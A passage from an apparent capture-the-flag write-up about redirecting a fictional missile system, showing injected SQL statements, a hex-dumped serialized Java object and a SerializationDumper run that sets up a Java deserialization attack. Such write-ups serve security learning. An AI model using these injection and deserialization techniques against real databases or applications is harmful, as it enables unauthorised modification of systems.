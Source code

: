 ```
}
```

### Resource Development

Now that I have some surveying complete, time to craft my exploit. I need to change the missile system to point towards the sun, so essentially I need
to change the pointing_mode table row with id: 1 from numerical_mode: 0 to numerical_mode 1. I can't do this through another injected sql query,

```
; UPDATE pointing_mode SET numerical_mode=1 WHERE id=1;
```

because I don't have update grants on the pointing_mode table. Instead I'm going to look more into the satellite_query data since I know it is of type [blob](https://en.wikipedia.org/wiki/Object_storage) from my database survey phase:

```
; select hex(object) from satellite_query where jid=1;
```

Output:

```
ACED00057372001F536174656C6C697465517565727946696C65466F6C6465725574696C69747912D4F68D0EB392CB0200035A0007697351756572795A000869735570646174654C000F706174684F7253746174656D656E747400124C6A6176612F6C616E672F537472696E673B787000007400292F6F70742F536174656C6C697465517565727946696C65466F6C6465725574696C6974792E6A617661
```

Looking at the magic bytes above, I can see this is a [serialized java object](https://snyk.io/blog/serialization-and-deserialization-in-java/). Perhaps I can use the SatelliteQueryFileFolderUtility class by creating my own serialized object?

Instead of fighting with Java directly, as I don't have an IDE set up for Java, I searched around for any tools for Java serialized objects. I found [this tool](https://github.com/NickstaDB/SerializationDumper?tab=readme-ov-file) which dumps serialed objects into a more human readible form. By running this:

```java
java -jar %USERPROFILE%\Downloads\SerializationDumper-v1.13.jar ACED00057372001F536174656C6C697465517565727946696C65466F6C6465725574696C69747912D4F68D0EB392CB0200035A0007697351756572795A000869735570646174654C000F706174684F7253746174656D656E747400124C6A6176612F6C616E672F537472696E673B787000007400292F6F70742F536174656C6C697465517565727946696C65466F6C6465725574696C6974792E6A617661
```

I get an output of:

```
STREAM_MAGIC - 0xac ed
STREAM_VERSION - 0x00 05
Contents
  TC_OBJECT - 0x73
    TC_CLASSDESC - 0x72
      className
        Length - 31 - 0x00 1f
        Value - SatelliteQueryFileFolderUtility - 0x536174656c6c697465517565727946696c65466f6c6465725574696c697479
      serialVersionUID - 0x12 d4 f6 8d 0e b3 92 cb
      newHandle 0x00 7e 00 00
      classDescFlags - 0x02 - SC_SERIALIZABLE
      fieldCount - 3 - 0x00 03
      Fields
        0:
          Boolean - Z - 0x5a
          fieldName
            Length - 7 - 0x00 07
            Value - isQuery - 0x69735175657279
```